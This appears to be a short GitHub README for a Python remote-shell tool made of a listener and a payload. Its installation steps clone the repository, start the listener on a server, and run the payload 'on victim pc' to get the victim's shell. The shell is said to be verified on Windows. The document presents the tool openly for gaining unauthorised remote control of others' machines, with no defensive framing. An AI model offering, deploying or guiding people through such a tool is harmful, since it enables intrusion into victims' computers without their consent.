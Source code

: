 # RCE-payload-and-listener
This is a python version 3 script one for server listener and other one is a payload

# Installation
--------------
```sh
▶ gitclone https://github.com/applefellow/RCE-payload-and-listener.git 
▶ cd RCE-payload-and-listener
▶ pip3 install -r requirements.txt
▶ python3 af@server.py # for listener
▶ python3 af@shell.py # run the af@shell.py on victim pc-will get the victim shell
```
shell Verified on windows only,But server can run on any os.
